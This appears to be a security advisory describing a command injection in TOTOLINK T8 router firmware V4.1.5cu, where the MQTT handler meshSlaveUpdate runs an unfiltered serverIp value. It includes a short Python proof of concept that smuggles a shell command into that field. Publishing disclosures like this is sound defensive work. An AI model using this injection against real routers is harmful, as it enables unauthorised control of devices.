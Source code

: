 # A command injection vulnerability in the function meshSlaveUpdate of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.

## Description

A command injection vulnerability in the function meshSlaveUpdate of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.

![image-20230116184500942](images/2.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/

![image-20230116184157081](images/1.png)

* Firmware download address : https://totolink.com.my/wp-content/uploads/2023/01/TOTOLINK_C8195R-1C_T8_IP04455_8197F_SPI_16M128M_V4.1.5cu.741_B20210916_ALL.zip

## Affected version

**Version: V4.1.5cu**

## Vulnerability details

The `T8` router opens the `MQTT` service

![image-20230116185238612](images/5.png)

In function `meshSlaveUpdate`,The "serverIp" parameter does not filter user input, which can cause command injection vulnerabilities



![image-20230116191049592](images/3.png)

POC

```
import paho.mqtt.client as mqtt
client = mqtt.Client()
client.connect("192.168.0.1",1883,60)
client.publish("totolink/router/meshSlaveUpdate", b'{"serverIp": ";ls>/tmp/meshSlaveUpdate.txt;"}')
```

![image-20230116191129895](images/4.png)